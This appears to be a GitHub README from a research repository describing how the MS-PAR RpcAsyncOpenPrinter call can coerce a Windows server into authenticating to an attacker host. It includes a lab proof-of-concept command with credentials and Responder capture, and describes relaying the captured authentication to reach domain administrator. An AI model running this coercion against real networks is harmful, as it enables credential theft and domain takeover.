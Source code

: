 # MS-PAR - Remote call to RpcAsyncOpenPrinter (opnum 0)

## Summary

+ **Protocol**: [[MS-PAR]: Print System Asynchronous Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0)

+ **Protocol UUID**: 76f03f96-cdfd-44fc-a22c-64950a001209

+ **Protocol version**: 1.0

+ **SMB Named pipe**: ``

+ **Function name**: [`RpcAsyncOpenPrinter`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/feddac6a-bd88-4989-95fb-715bd6ca796a)

+ **Function operation number**: `0`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-PAR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0) protocol (with uuid `76f03f96-cdfd-44fc-a22c-64950a001209` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-PAR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-PAR]: Print System Asynchronous Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0) and allows to call RPC functions of this protocol. We will then call the remote [`RpcAsyncOpenPrinter`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/feddac6a-bd88-4989-95fb-715bd6ca796a) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcAsyncOpenPrinter('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD RpcAsyncOpenPrinter(
   [in] handle_t hRemoteBinding,
   [in, string, unique] wchar_t* pPrinterName,
   [out] PRINTER_HANDLE* pHandle,
   [in, string, unique] wchar_t* pDatatype,
   [in] DEVMODE_CONTAINER* pDevModeContainer,
   [in] DWORD AccessRequired,
   [in] SPLCLIENT_CONTAINER* pClientInfo
 );
```

## References

+ Documentation of protocol [MS-PAR]: Print System Asynchronous Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/695e3f9a-f83f-479a-82d9-ba260497c2d0

+ Documentation of function `RpcAsyncOpenPrinter`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-par/feddac6a-bd88-4989-95fb-715bd6ca796a